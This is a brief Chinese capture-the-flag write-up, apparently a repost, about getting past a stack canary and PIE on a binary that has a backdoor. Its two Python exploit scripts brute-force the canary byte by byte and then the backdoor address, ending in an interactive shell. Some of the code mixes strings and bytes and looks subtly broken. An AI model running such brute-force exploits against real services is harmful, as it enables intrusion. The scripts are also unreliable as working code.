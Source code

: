 [![](assets/1706146504-12e9cbcac7bde5989c930edc157432f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121234000-5656ce9a-b873-1.png)  
虽然有后们，但是保护全开，所以泄露了 canary，还得继续爆破 pie

[![](assets/1706146504-10696566e6256de8d8c4f1ddd3da1f7b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121234008-5b6d4d64-b873-1.png)

### 爆破 canary 脚本

```plain
canary = '\x00'
for k in range(7):
    for i in range(256):
        print("正在爆破 Canary 的第" + str(k+1) + "位")
        print("当前的字符为" + chr(i))
        payload=b'a'*0x68 + canary + chr(i)
        print("当前的字符为" + payload)
        p.send(b'a'*0x68 + canary +chr(i))
        data = p.recvuntil("welcome\n")
        if 'stack' in data:
            continue
        else:
            print(str(i + 1) + 'place')
            canary += p8(i)
            print(canary)
            break
```

### 爆破 pie 脚本

```plain
backdoor = 0x0231
while True:
    for i in range(16):
        p.send(b'a'*0x68+canary*2+p16(backdoor))
# offset + canary + rbp + pie_backdoor
        a = p.recvuntil(b'welcome\n', timeout = 0.5)
# timeout 最好还是加上
        if b'welcome\n' in a:
            backdoor += 0x1000
        if b'flag' in a:
# 如果是 flag 开头就改为 flag
            print(a)
            p.interactive()
```
